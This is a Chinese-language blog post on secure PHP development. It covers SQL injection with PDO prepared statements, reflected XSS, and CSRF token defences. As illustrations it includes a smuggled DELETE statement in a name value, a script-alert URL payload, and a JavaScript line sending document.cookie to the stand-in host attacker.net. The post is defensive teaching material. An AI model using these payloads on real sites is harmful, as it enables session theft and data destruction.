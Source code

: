 ```yaml
---
title: '浅谈PHP安全开发'
layout: post
tags:
  - 安全
  - php
  - 微服务
  - 架构
category: 架构
---
```



PHP安全开发第一步，你需要使用一个优秀的PHP框架。一个优秀的框架不仅有着良好的工程结构，也往往在安全防御上有很多有用的类库、开关。今天介绍的PHP开发安全防护也是基于框架来说的。 PHP框架数不胜数，很多PHP开发人员都自己写过框架，但优秀且常用的PHP框架也就那么几个，如经典的Codeigniter、优雅的Laravel、执行速度最快的Yaf等等。下面涉及到框架方面的东西都是基于Laravel框架进行讨论。

<!--more-->

## SQL注入

SQL注入，就是通过把SQL命令插入到Web表单递交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令


```python
// 用户名过滤，输入的用户名必须为字母、数字及下划线的组合，且用户名长度为 8 到 20 个字符之间
if (preg_match("/^\w{8,20}$/", $_GET['username'], $matches))
{
 $result = mysql_query("SELECT * FROM users 
       WHERE username=$matches[0]");
}
 else
{
 echo "username 输入异常";
}

// 没有过滤特殊字符时，出现的SQL情况，设定$name 中插入了我们不需要的SQL语句
$name = "Qadir'; DELETE FROM users;";
mysql_query("SELECT * FROM users WHERE name='{$name}'");
```

我们没有对 $name 的变量进行过滤，$name 中插入了我们不需要的SQL语句，将删除 users 表中的所有数据。

### 防止SQL注入

> * 永远不要信任用户的输入。对用户的输入进行校验，可以通过正则表达式，或限制长度；对单引号和 双"-"进行转换等。
* 永远不要使用动态拼装sql，可以使用参数化的sql或者直接使用存储过程进行数据查询存取。
* 永远不要使用管理员权限的数据库连接，为每个应用使用单独的权限有限的数据库连接。
* 不要把机密信息直接存放，加密或者hash掉密码和敏感的信息。
* 应用的异常信息应该给出尽可能少的提示，最好使用自定义的错误信息对原始错误信息进行包装
* sql注入的检测方法一般采取辅助软件或网站平台来检测，软件一般采用sql注入检测工具jsky，网站平台就有亿思网站安全平台检测工具。MDCSOFT SCAN等。采用MDCSOFT-IPS可以有效的防御SQL注入，XSS攻击等。

当我们使用传统的 mysql_connect 、mysql_query方法来连接查询数据库时，如果过滤不严，就有SQL注入风险，导致网站被攻击，失去控制。虽然可以用mysql_real_escape_string()/使用htmlspecialchars()函数过滤用户提交的值，但是也有缺陷。而使用PHP的PDO扩展的 prepare 方法，就可以避免sql injection 风险。


```python
$stmt = $dbh->prepare("select * from test where name = ?");
if ($stmt->execute(array("david"))) {
 while ($row = $stmt->fetch(PDO::FETCH_ASSOC)) {
     print_r($row);
 }
}
```

### PDO防注入原理

使用PDO访问MySQL数据库时，真正的real prepared statements 默认情况下是不使用的。为了解决这个问题，你必须禁用 prepared statements的仿真效果。下面是使用PDO创建链接的例子：

```python
$dbh = new PDO('mysql:dbname=dbtest;host=127.0.0.1;charset=utf8', 'user', 'pass');
$dbh->setAttribute(PDO::ATTR_EMULATE_PREPARES, false);

```
setAttribute（）这一行是强制性的，它会告诉 PDO 禁用模拟预处理语句，并使用 real parepared statements 。这可以确保SQL语句和相应的值在传递到mysql服务器之前是不会被PHP解析的（禁止了所有可能的恶意SQL注入攻击）。虽然你可以配置文件中设置字符集的属性(charset=utf8)，但是需要格外注意的是，老版本的 PHP（ < 5.3.6）在DSN中是忽略字符参数的。

```python
$dbh = new PDO("mysql:host=localhost; dbname=demo", "user", "pass");
$dbh->setAttribute(PDO::ATTR_EMULATE_PREPARES, false); //禁用prepared statements的仿真效果
$dbh->exec("set names 'utf8'");
$sql="select * from test where name = ? and password = ?";
$stmt = $dbh->prepare($sql);
$exeres = $stmt->execute(array($testname, $pass));
if ($exeres) {
 while ($row = $stmt->fetch(PDO::FETCH_ASSOC)) {
     print_r($row);
 }
}
$dbh = null;
```

上面这段代码就可以防范sql注入。为什么呢？
当调用 prepare() 时，查询语句已经发送给了数据库服务器，此时只有占位符 ? 发送过去，没有用户提交的数据；当调用到 execute()时，用户提交过来的值才会传送给数据库，他们是分开传送的，两者独立的，由MySQL完成变量的转义处理，SQL攻击者没有一点机会。
但是我们需要注意的是以下几种情况，PDO并不能帮助你防范SQL注入

* 你不能让占位符 ? 代替一组值

```python
SELECT * FROM blog WHERE userid IN ( ? );
```

* 你不能让占位符代替数据表名或列名

```python
SELECT * FROM blog ORDER BY ?;
```
* 你不能让占位符 ? 代替任何其他SQL语法，如：

```python
SELECT EXTRACT( ? FROM datetime_column) AS variable_datetime_element FROM blog;
```

## XSS

XSS(Cross Site Scripting)，意为网站脚本攻击。跨站脚本主要被攻击者利用网站用户的cookies或者其他个人数据，一旦攻击者得到这些数据，那么他就可以伪装成此用户来登录网站，获得此用户的权限。

跨站脚本攻击的一般步骤:

1、攻击者以某种方式发送xss的http链接给目标用户
2、目标用户登录此网站，在登陆期间打开了攻击者发送的xss链接
3、网站执行了此xss攻击脚本
4、目标用户页面跳转到攻击者的网站，攻击者取得了目标用户的信息
5、攻击者使用目标用户的信息登录网站，完成攻击

![](http://www.stelin.me/assets/img/架构/20170602-103844.png)

用户浏览网页时发送错误，向服务器请求 URL，比如www.xxx.com/error.php?message=sorry,an error occurred，然后服务器根据得到的 message，不进行过滤，复制到错误页面的模板中sorry,an error occurred，返回给用户。

	这个漏洞有一个显著的特征，应用程序没有进行任何过滤或净化措施，就非常容易受到攻击。www.xxx.com/error.php?message=<script>alert(1)</script>，当用户打开错误页面时，就会出现<script>alert(1)</script>，弹出一个消息框。

显然，攻击人员不会很傻的仅仅 alert 一些消息，在 IE 中，如果开启跨站点脚本检测可能无法弹出消息。通常 XSS 都会伴随着会话劫持，攻击者截获通过验证的用户的会话令牌。劫持用户的会话后，攻击者就可以访问该用户授权访问的所有数据和功能。

比如攻击者构造一个这样的 URL，message 信息如下


```javascript
var i = new Image;
i.src="http://attacker.net/"+document.cookie;
```

> 最简单的办法，过滤输入。对用户的输入，可以使用htmlspecialchars()等函数进行过滤转义，当然，一些文件上传等，也可能会造成此攻击，要限制上传文件的类型，比如只能传图片等。

## CSRF

CSRF（Cross-site request forgery），中文名称：跨站请求伪造，跨站攻击。

![](http://www.stelin.me/assets/img/架构/20170602-104625.png)

CSRF攻击理解：攻击者盗用了你的身份，以你的名义发送恶意请求。CSRF能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账......造成的问题包括：个人隐私泄露以及财产安全。

1. 登录受信任网站A，并在本地生成Cookie。
2. 在不登出A的情况下，访问危险网站B。

“如果我不满足以上两个条件中的一个，我就不会受到CSRF的攻击”。是的，确实如此，但你不能保证以下情况不会发生：

1. 你不能保证你登录了一个网站后，不再打开一个tab页面并访问另外的网站。

2. 你不能保证你关闭浏览器了后，你本地的Cookie立刻过期，你上次的会话已经结束。（事实上，关闭浏览器不能结束一个会话，但大多数人都会错误的认为关闭浏览器就等于退出登录/结束会话了......）

3. 上图中所谓的攻击网站，可能是一个存在其他漏洞的可信任的经常被人访问的网站。



> 1. 使用token进行验证。可以在 HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器端建立一个拦截器来验证这个 token，如果请求中没有 token 或者 token 内容不正确，则认为可能是 CSRF 攻击而拒绝该请求。（使用GET或POST方法加TOKEN）
2. 验证HTTP Referer字段。HTTP Referer字段，记录该HTTP请求的来源。如果来源是外部，那么就拒绝这个请求。（这个方法不安全，可以篡改HTTP Referer字段）
3. 一般框架，像ThinkPHP、laravel有表单令牌可以做防范。
4. 多个服务之前走内外调用




